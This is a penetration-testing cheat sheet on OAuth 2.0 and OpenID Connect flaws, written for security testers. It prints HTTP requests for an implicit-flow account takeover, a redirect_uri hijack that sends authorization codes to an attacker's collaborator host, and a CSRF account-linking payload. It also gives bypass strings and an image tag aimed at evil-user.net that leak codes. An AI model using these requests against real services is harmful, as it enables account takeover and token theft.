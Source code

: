 ```yaml
---
title: Oauth
description: While browsing the web, you've almost certainly come across sites that let you log in using your social media account. The chances are that this feature is built using the popular OAuth 2.0 framework. OAuth 2.0 is highly interesting for attackers because it is both extremely common and inherently prone to implementation mistakes. This can result in a number of vulnerabilities, allowing attackers to obtain sensitive user data and potentially bypass authentication completely.
---
```




## Authentication bypass via OAuth implicit flow

Check if authentication on the target server depends solely on the OAuth token or if it also uses username/email parameters provided by clientside. As an example the next request sends the token and email+username.


```http
POST /authenticate HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=n20zBuYgGlReeEXCjbsonkzq2qaH8txt
Content-Length: 103
Content-Type: application/json
Connection: close

{"email":"wiener@hotdog.com","username":"wiener","token":"YwLD1AxRtNly8VTIg63UxtFkHlfkweeFIwtG7O9V8ho"}
```

The server only checks if the token is valid, and then logs-in to the indicated username/email. In this request, using the same token from an account we control, we can authenticate as other user simply by changing email/username:

```http
POST /authenticate HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=n20zBuYgGlReeEXCjbsonkzq2qaH8txt
Content-Length: 103
Content-Type: application/json
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"YwLD1AxRtNly8VTIg63UxtFkHlfkweeFIwtG7O9V8ho"}
```

This could lead to a full account takeover.

## OAuth account hijacking via redirect_uri

This vulnerability affects the OAuth provider or its configuration. Not limiting the `redirect_uri` parameter, could result in a CSRF-like vulnerability where an attacker could steal authorization codes. The victim just has to visit a malicious link where the `redirect_uri` parameter was changed to an attacker-controlled server.

```http
GET /auth?client_id=X&redirect_uri=https%3a%2f%2f{{ collaborator your.burpcollaborator.net } url }&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: {{ target-domain vulerable.net }}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
```

This will result on the user being redirected to the attacker server leaking the _Authorization code_ on the `code` GET parameter as seen on the following request received on the burp collaborator:

```http
GET /oauth-callback?code=DMRc3iIkqJ1EhTj2GMRhmz9V_viFZlz6pEQJUI0odAc HTTP/1.1
Host: {{ collaborator your.burpcollaborator.net }}
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
```

## Flawed CSRF protection

The `state` parameter on OAuth is optional, but strongly recommended. This parameter works as a CSRF token.

You can force people into either using yor account or into linking your social media account to their vulnerable app account. A simple redirect to the `?code=` URL is what you are looking for.

```http
HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: https://{{ target-domain vulerable.net }}/oauth-linking?code=PsM3KdpzzNnEfl4bYBIu0HgXkXiQd5Ge4zDbvGnKBRY

<a href="https://{{ target-domain vulerable.net }}/oauth-linking?code=PsM3KdpzzNnEfl4bYBIu0HgXkXiQd5Ge4zDbvGnKBRY">Click me</a>
```

## Additional tips

The `redirect_uri` must be limited to an specific whitelist. This could also be circumvented. A few tests should be carried out before giving up:

- Try removing or adding arbitrary paths, query parameters, and fragments to **see what you can change without triggering an error**.
- You might be able to exploit discrepancies between the **parsing of the URI**. You can try techniques such as:
  - `https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`
- You may occasionally come across **server-side parameter pollution** vulnerabilities. Just in case, you should try submitting duplicate redirect_uri parameters as follows:
  - `https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
- Weird checks could be in place. Some servers give special treatment to **localhost URIs**; things such as subdomains like `localhost.evil-user.net` should be tested.
- **Don't limit your testing to the redirect_uri parameter**. You will often need to experiment with different combinations of changes to several parameters. Sometimes changing one parameter can affect the validation of others. For example, changing the `response_mode` from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri`, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the `web_message` response mode is supported, this often allows a wider range of subdomains in the `redirect_uri`.
- Abusing **other vulnerabilities** on the same domain such as **open redirects** could also be handy. You could try URIs such as `https://client-app.com/oauth/callback/../../example/path` where theres open redirects. More vulnerabilities can be:
  - **Dangerous JavaScript that handles query parameters and URL fragments**: For example, insecure web messaging scripts can be great for this. In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain.
  - **XSS vulnerabnilities**: Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. As the HTTPOnly attribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability.
  - **HTML injection vulnerabilities**: In cases where you cannot inject JavaScript (for example, due to CSP constraints or strict filtering), you may still be able to use a simple HTML injection to steal authorization codes. If you can point the redirect_uri parameter to a page on which you can inject your own HTML content, you might be able to leak the code via the _Referer_ header. For example, consider the following img element: `<img src="evil-user.net">`. When attempting to fetch this image, some browsers (such as Firefox) will send the full URL in the _Referer_ header of the request, including the query string.

## OpenID Connect

Basically extends OAuth to provide a more standarised, robust and reliable way of using OAuth as an authentication mechanism. The main addition is the **ID token** (`id_token`) response type. Is a more simple (requires less requests) way of using OAuth. Easily recognisable as it returns a Json Web Token (JWT).

Standard endpoint: `/.well-known/openid-configuration`

### Unprotected dynamic client registration

Some OpenID providers allow for a dynamic way of registering clients. This should be authenticated as attackers could register their own malicious client applications.

This could actually result in a SSRF vector where the vulnerable component is the OAuth provider. For example you could register an application and be able to provide a URL for the APP logo wich could be an SSRF attack.

## Saúl's _"seen in the wild"_ tips

### Checking if the tokens were requested by the intended application

When using OAuth for authentication, the servers must check that the tokens they are receiving were not emmited for other apps. The attack would be like this:

1. Victim logs in using Google on a malicious rogue application.
2. Attacker controling the malicious application uses received OAuth/OpenID token to login on the vulnerable service.

More info at [Validating  an ID token](https://developers.google.com/identity/protocols/oauth2/openid-connect#validatinganidtoken)
